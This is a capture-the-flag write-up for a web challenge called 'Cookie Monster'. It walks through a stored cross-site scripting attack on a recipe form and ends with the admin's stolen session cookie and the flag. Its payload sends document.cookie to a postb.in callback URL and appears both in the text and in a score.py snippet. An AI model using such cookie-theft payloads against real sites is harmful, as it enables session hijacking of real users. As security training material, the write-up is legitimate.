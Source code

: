 # Cookie Monster

## Challenge
* Category: Web Security
* Points: 200

Lets make some yummy cookies! Maybe you can even find some extra tasty ones: http://challenge.acictf.com:45101.

### Hints
* The admin can see the flag on the admin page.
* You can control the value so select all you want.
* If you need an endpoint for a callback, [postb.in](https://postb.in/) is a useful resource. You could also run a simple server on the competition's shell server using a command like python -m SimpleHTTPServer.


## Solution

### Tools
* Chrome > Dev Tools
* [postb.in](https://postb.in/)
* python script score.py


Before we get started, go to the challenge page http://challenge.acictf.com:45101 and familiarize yourself with the site. Right-Click > Inspect and then add a bunch of ingredients, click `Bake` and watch the changes that occur on the website. Lets document the process of baking and submitting a "Cookie" recipe for approval.

* Loading the website takes you to the `/cookie` endpoint in the URL.
* Here, you give your recipe a name and add "ingredients" like flower, sugar, etc to the form.
* Then you click `Bake!`, which does a `POST` to `/cookie/new` endpoint.
  * Take note of the ingredients `<script>...</script>` at the bottom of the page. We'll discuss this in a bit.
* After clicking `Bake!` we re-directed to a new endpoint `/cookie/ae55d3b7-a835-40ec-a0aa-5de7ba5f0f4e`. The uuid4 after `/cookie/` changes.
* This page contains 2 important parts.
  * First a `Submit For Approval by Cookie Monster` button which makes a `POST` to the `/approve` endpoint.
  * Second there is a link on the page to the `/admin` endpoint. Expand the `More Info` button on the top right and below `Give me cookie` is a link that activates when you hover over it.

Lets discuss what is going on with this page and forumlate an order of operations for exploiting this page. First, go [here](https://excess-xss.com/) and read up on XSS, paying close attention to `Cookie theft`.

![cookie html](images/cookie_html.png)

Lets discuss the two areas of the HTML above I have marked in red.
* The box marked 1 is the form where we select ingredients we add to our recipe. We will demonstrate below they are not doing any input validation.
* The box marked 2 is the javascript that runs on the ingredients. If we are able to inject code above into a `value="some code"` from box 1, this section would run that code.

Try editing the value for the ingredient `flour`. Then click the `Bake!` button. I changed `<option value="laxatives">flour</option>` and clicked bake. Huzzah! We discovered they are not doing any input validation. Who would put `laxatives` in their cookies? This will serve as the source for our XSS injection.

![laxatives](images/laxatives.png)


Try putting some javascript in the `value=` form and see if it runs. Lets put `<script>window.alert('Hello World')</script>`.

![hello world](images/hello_world.png)

Excellent. We now know what we inject into the ingredient form is executable. If you read [this](https://excess-xss.com/) article referenced above, you will know we are going to have to page callout to our endpoint and give us some information.

Go to https://postb.in/ and click `Create Bin`. Grab the URL and lets put it into some javascript. `<script>document.location='https://postb.in/1589057416057-1402036985382?hello='+document.cookie</script>`, add the `flour` ingredient, and click `Bake!`.  Our page redirects to our postb.in website and if you go back to your postb.in page and refresh, you will see it updated with callback information from our session. Specifically in our script we told the page to send the `document.cookie` over to our postb.in page.

This is cool and all, but so far we've only produced a client-side exploit. We are interested in a server-side exploit so we can access the admin page for the flag. This is where the script `score.py` comes into play. Lets break down that the script does.

#### score.py
* We will use python's [requests](https://requests.readthedocs.io/en/master/user/advanced/) library to create a session with the website
* Then the script does a `POST` to the `/cookie/new` endpoint with our payload in the data. This generates the `/cookie/<uuid4>` endpoint
* We need to regex the `cookie ID` from the server response so we can use it in the next `POST`
* Finally, the script does a `POST` to the `/approve` endpoint with the `cookie_id` we regexed in the data.

Edit score.py and modify the payload to match your postb.in url.
```
payload = '<script>document.location="https://postb.in/1589057416057-1402036985382?hello="+document.cookie</script>'
```
Now run score.py
```
$ python3 score.py
200
071161fa-c5db-4d26-a99a-d58c13342f10
http://challenge.acictf.com:45101/cookie/071161fa-c5db-4d26-a99a-d58c13342f10
200
b'\n<!doctype html>\n<html lang="en">\n  <head>\n    <meta charset="utf-8">\n    <meta name="viewport" content="width=device-width, initial-scale=1, shrink-to-fit=no">\n    <meta name="description" content="">\n    <meta name="author" content="">\n    <title>Cookie Monster\'s Recipies</title>\n\n    <!-- Bootstrap core CSS -->\n    <link href="/static/css/bootstrap.min.css" rel="stylesheet">\n    <style>\n.monster {\n  position:fixed;\n  width:600px;\n  height:100%;\n  bottom: -380px;\n  right: 0px;\n  opacity: .5;\n  background-image: url(/static/cookie_monster.png);\n  background-repeat: no-repeat;\n  pointer-events: none;\n}\n    </style>\n\n    <!-- Custom styles for this template -->\n  </head>\n\n  <body>\n    <header>\n      <div class="navbar navbar-light bg-light box-shadow fixed-top">\n        <div class="container d-flex justify-content-between">\n          <a href="#" class="navbar-brand d-flex align-items-center">\n            <strong>Cookie Monster\'s Cookies</strong>\n          </a>\n          <button class="navbar-toggler" type="button" data-toggle="collapse" data-target="#navbarHeader" aria-controls="navbarHeader" aria-expanded="false" aria-label="Toggle navigation">\n            <span class="">More Info</span>\n          </button>\n        </div>\n      </div>\n      <div style="margin-top: 58px"></div>\n      <div class="collapse bg-dark" id="navbarHeader">\n        <div class="container">\n          <div class="row">\n            <div class="col-sm-8 col-md-7 py-4">\n              <h4 class="text-white">About</h4>\n              <p class="text-muted">Cookie monster like cookies and want to share with all you! Me let you share ways to make cookie here, but only if me likes your cookies enough...</p>\n            </div>\n            <div class="col-sm-4 offset-md-1 py-4">\n              <h4 class="text-white">Cookies</h4>\n              <ul class="list-unstyled">\n                <li><a href="/cookie" class="text-white">Give me cookie</a></li>\n                <li><a href="/admin" class="text-dark">Cookie Admin</a></li>\n              </ul>\n            </div>\n          </div>\n        </div>\n      </div>\n    </header>\n\n    <main role="main">\n\n<div class="album py-5 bg-light">\n<div class="container">\n  <div class="row">\n    <div class="col-6">\n      <h1 class="page-header">blarg</h1>\n      <p>1. Preheat the oven to 350</p>\n<p>2. Add in 2 ounces of <script>document.location="https://postb.in/1589057416057-1402036985382?hello="+document.cookie</script></p>\n<p>3. Bake for 42 minutes and allow to cool</p>\n    </div>\n    <div class="col-6">\n      \n          <button class="btn btn-warning" disabled>Cookie Monster is viewing this cookie</button>\n      \n    </div>\n  </div>\n</div>\n\n\n    </main>\n\n    <footer class="text-muted">\n      <div class="container">\n        <p class="float-right">\n        </p>\n        <p><a href="/cookie">Tell me about cookie</a></p>\n      </div>\n    </footer>\n\n    <!-- Bootstrap core JavaScript\n    ================================================== -->\n    <!-- Placed at the end of the document so the pages load faster -->\n    <script src="https://code.jquery.com/jquery-3.2.1.slim.min.js" integrity="sha384-KJ3o2DKtIkvYIK3UENzmM7KCkRr/rE9/Qpg6aAZGJwFDMVNA/GpGFF93hXpG5KkN" crossorigin="anonymous"></script>\n    <script>window.jQuery || document.write(\'<script src="../../assets/js/vendor/jquery-slim.min.js"><\\/script>\')</script>\n    <script src="/static/js/popper.min.js"></script>\n    <script src="/static/js/bootstrap.min.js"></script>\n    <script src="/static/js/holder.min.js"></script>\n    \n    \n    <div class="monster"></div>\n  </body>\n</html>\n'
```

This is great and all, but the score.py does not give us the flag. FYI, score.py just prints a bunch of stuff to make sure we are getting 200 response from the website.

Go over to your postb.in website and refresh the page. You should see a new entry.

![postb.in](images/postb_in.png)

We have successfully conducted a server-side exploit. The `session=4338c3c2-2b40-4bdf-94ae-ab9b8bc3fc68` is the admin's cookie.

Now you just have to use that session cookie to access the `/admin` endpoint.

Go back to the site, Right-Click > Inspect. Across the top of Chrome, Click the `Application` tab. On the left side expand Cookies and select our site. Paste the session cookie from our postb.in page into the session value.

![admin session](images/admin_session.png)

Now on the cookie monster website, find that hidden `admin` link and click it. You should see something like this below:

![flag recipe](images/flag_recipe.png)

Click your `Flag Cookie` for the flag.

![flag cookie](images/flag_cookie.png)

**ACI{00892906aa63e2a1dc271d58816}**
